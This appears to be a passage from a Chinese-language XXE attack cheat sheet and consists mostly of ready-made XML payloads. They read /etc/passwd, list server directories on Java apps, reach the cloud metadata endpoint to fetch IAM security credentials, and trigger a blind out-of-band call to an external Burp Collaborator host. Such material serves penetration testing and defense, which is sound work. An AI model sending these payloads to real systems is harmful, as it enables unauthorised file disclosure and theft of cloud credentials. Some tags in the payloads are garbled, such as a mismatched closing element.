 ```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

![](<../.gitbook/assets/image (222).png>)

### 列出目录

在基于 **java**的应用程序中，或许可以通过 XXE 列出目录的内容，其有效负载如下：

```markup
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

XXE 可用于云服务器的 SSRF

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF

有时候，后端可能存在某些防御手段，导致通过**XML 实体**进行攻击并不起效，此时可以尝试使用 **XML 参数实体**：

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
